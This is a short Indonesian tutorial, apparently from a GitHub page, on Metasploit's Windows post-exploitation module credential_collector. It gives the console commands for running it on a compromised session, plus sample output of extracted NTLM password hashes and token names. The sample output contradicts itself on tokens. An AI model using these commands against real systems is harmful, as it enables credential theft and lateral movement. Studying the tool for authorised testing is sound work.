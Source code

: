 # credential_collector

Modul `credential_collector` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan berbagai jenis kredensial dari komputer target, termasuk `username`, `password`, `token`, dan `informasi login lainnya` yang tersimpan di sistem. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan akan menjalankan beberapa teknik pengumpulan secara otomatis, termasuk pencarian di `memori`, `registry`, dan `file sistem`, sehingga sangat berguna dalam tahap eksploitasi lanjutan untuk mendapatkan akses lebih dalam atau lateral movement ke sistem lain.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/credentials/credential_collector
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[+] Collecting hashes...
    Extracted: admin:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98
    Extracted: loginbang:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] Collecting tokens...
    admin-PC\admin
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    No tokens available
[*] Post module execution completed
```
